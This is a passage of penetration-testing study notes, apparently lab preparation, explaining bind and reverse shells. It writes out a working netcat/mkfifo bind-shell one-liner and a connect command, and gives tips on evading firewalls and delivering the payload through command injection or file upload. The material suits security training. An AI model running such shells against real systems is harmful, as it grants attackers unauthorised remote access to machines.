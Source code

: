             ```bash
            rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
            
            ```
            
        - Client reconnects: `nc -nv 10.129.41.200 7777`.
        - Outcome: Interactive Bash shell session (`Target@server: $`).

## Payload Breakdown

- **Command**: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`
- **Components**:
    - `rm -f /tmp/f`: Deletes `/tmp/f` if it exists (`f` ignores nonexistent files).
    - `mkfifo /tmp/f`: Creates a FIFO named pipe for data flow.
    - `cat /tmp/f |`: Reads pipe output, piping to the next command.
    - `/bin/bash -i 2>&1`: Starts an interactive Bash shell, redirecting stderr (`2`) and stdout (`1`).
    - `nc -l 10.129.41.200 7777 > /tmp/f`: Listens on port 7777, redirecting output to `/tmp/f`.

## Notes for CAT5 Security Assessment

- **Objective**: Demonstrate proficiency in setting up bind shells.
- **Challenges**:
    - Start a listener on the target without triggering firewalls.
    - Bypass network/OS firewall restrictions.
    - Deliver the payload to serve a shell (e.g., via command injection or file upload).
- **Considerations**:
    - Bind shells are less practical in real-world scenarios due to firewall restrictions.
    - Prefer reverse shells for stealth and reliability.
- **Tips**:
    - Use standard ports (e.g., 80, 443) to blend with legitimate traffic, though detection risk remains.
    - Practice in a lab (e.g., Pwnbox) to understand Netcat and payload delivery.
    - Document commands and outputs for reference.

# Reverse Shells Notes

## Introduction

These notes, based on the "Reverse Shells" document, outline the concept and implementation of reverse shells for penetration testing, tailored for CAT5 Security's Inlanefreight engagement preparation. Reverse shells involve the target initiating a connection to the attacker’s listener, offering stealth advantages over bind shells.

## Key Concepts

### Reverse Shell

- **Definition**: A shell where the target system initiates a connection to a listener on the attacker’s system (attack box).
- **Mechanism**: The attack box runs a listener, and the target acts as the client, connecting back to the attacker’s IP and port.
- **Purpose**: Provides interactive OS access for command execution, enumeration, and exploitation.

